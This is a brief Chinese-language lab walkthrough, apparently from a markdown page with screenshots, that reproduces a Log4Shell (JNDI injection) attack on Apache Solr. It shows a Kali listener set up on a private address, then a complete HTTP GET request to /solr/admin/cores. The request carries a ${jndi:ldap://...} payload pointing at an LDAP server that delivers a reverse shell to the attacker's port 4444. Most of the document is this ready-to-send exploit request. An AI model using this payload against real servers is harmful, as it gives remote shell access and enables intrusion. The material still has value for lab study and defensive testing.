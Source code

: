

kali（192.168.64.128）开启监听

![image-20240605160624720](assets/image-20240605160624720.png)





发包：目标（192.168.64.130）

![image-20240605160736086](assets/image-20240605160736086.png)

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.64.1:1389/Basic/ReverseShell/192.168.64.128/4444} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close

```

